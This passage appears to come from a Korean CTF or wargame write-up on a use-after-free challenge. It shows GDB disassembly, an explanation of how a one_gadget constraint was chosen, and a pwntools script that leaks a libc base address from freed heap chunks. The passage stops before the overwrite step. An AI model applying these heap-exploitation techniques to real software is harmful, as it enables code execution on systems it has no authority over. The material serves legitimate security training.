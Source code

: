 ```nasm
   0x0000555555400a7c <+138>:   mov    QWORD PTR [rax+0x18],rdx
   0x0000555555400a80 <+142>:   mov    rax,QWORD PTR [rip+0x2015c9]        # 0x555555602050 <robot>
   0x0000555555400a87 <+149>:   mov    rdx,QWORD PTR [rax+0x18]
   0x0000555555400a8b <+153>:   mov    rax,QWORD PTR [rip+0x2015be]        # 0x555555602050 <robot>
   0x0000555555400a92 <+160>:   mov    rdi,rax
   0x0000555555400a95 <+163>:   mov    eax,0x0
   0x0000555555400a9a <+168>:   call   rdx
   0x0000555555400a9c <+170>:   mov    rax,QWORD PTR [rip+0x2015ad]        # 0x555555602050 <robot>
   0x0000555555400aa3 <+177>:   mov    rdi,rax
   0x0000555555400aa6 <+180>:   call   0x555555400760 <free@plt>
   0x0000555555400aab <+185>:   nop
   0x0000555555400aac <+186>:   pop    rbp
   0x0000555555400aad <+187>:   ret
```


이 코드에서 `robot->fptr();` 를 실행시킬 수 있는 부분을 찾아보면  

- `0x0000555555400a6a <+120>:   call   rdx`

이 위치이므로 이곳에 브레이크를 걸고, case 1 인 human 함수에서 임의의 두 값을 넣어준 뒤   
`rcx`, `rsp+0x40`, `rsp+0x70` 세 곳에서 어떤 값을 가지는지 확인해보자.  


<br>

![image](https://github.com/user-attachments/assets/27b5b308-07fb-446b-931a-5e20235e11a0)



- `rcx` → `0x10`
- `rsp+0x40` → `0x7fffffffe5d0: 0x0000000100000000`
- `rsp+0x70` → `0x7fffffffe600: 0x0000000000000000`

이렇게 `rsp+0x70`일 때 조건을 만족한 것을 알아냈다.    

`one_gadget` = `libc_base` + `0x10a41c` 라 두고 코드를 마저 짜보자.  

<br>

**최종 익스플로잇 코드**  

```python
from pwn import *

p = process('./uaf_overwrite', env={"LD_PRELOAD":"./libc-2.27.so"})
libc=ELF('./libc-2.27.so')

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', b'1280')
p.sendlineafter(b'Data: ', b'AAAA')
p.sendlineafter(b'idx: ', b'9')

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', b'1280')
p.sendlineafter(b'Data: ', b'AAAA')
p.sendlineafter(b'idx: ', b'0')

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', b'1280')
p.sendafter(b'Data: ', b'B')

p.recvuntil(b'Data: ')
libc_leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))

# libc_offset= 0x3ebca0
libc_base = libc_leak - 0x3ebc42
print(hex(libc_base))
p.sendlineafter(b'idx: ', b'9')
```